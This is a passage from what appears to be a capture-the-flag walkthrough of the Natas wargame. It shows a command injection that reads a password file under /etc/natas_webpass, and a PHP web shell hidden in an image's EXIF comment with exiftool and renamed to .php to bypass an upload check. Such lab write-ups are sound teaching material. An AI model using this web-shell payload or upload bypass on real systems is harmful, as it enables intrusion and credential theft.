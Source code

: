 Cool ! Now let's inject the command **" cat /etc/natas_webpass/natas13 "** to get the next password. But first, we need to URL-encode it. In our case, all we need to is replace that space with **" %20 "**. If you want to make sure, you can hope quickly to CyberChef and URL-encode that command.

Anyway, here is the result :

![alt text](NatasScreenshots/13.6.png)

# Level 14

Now, it checks if we uploaded a legit image so we can't simply throw a php payload. So let's get ourselves a real image and inject in it the payload !

The image needs to be really tiny with a size under 1Kb to be accepted so let's download a small white pixel. Here is a nice website to do so : https://commons.wikimedia.org/wiki/File:1x1.png

Now how can we inject our payload in that image ? Well, each image has a field named **Comment** that can hold strings without affecting the image itself. So let's comment our payload in that image with **exiftool** command. Then, we need to rename our image to hold **.php** extension rather than **.png** so it can work properly

```console
$ exiftool -Comment='<?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>' 1x1.png
$ mv 1x1.png 1x1.php
```

![alt text](NatasScreenshots/14.1.png)

Let's run **exiftool** on our new file to check if it is still interpreted as a legit image.

```console
$ exiftool 1x1.php
```
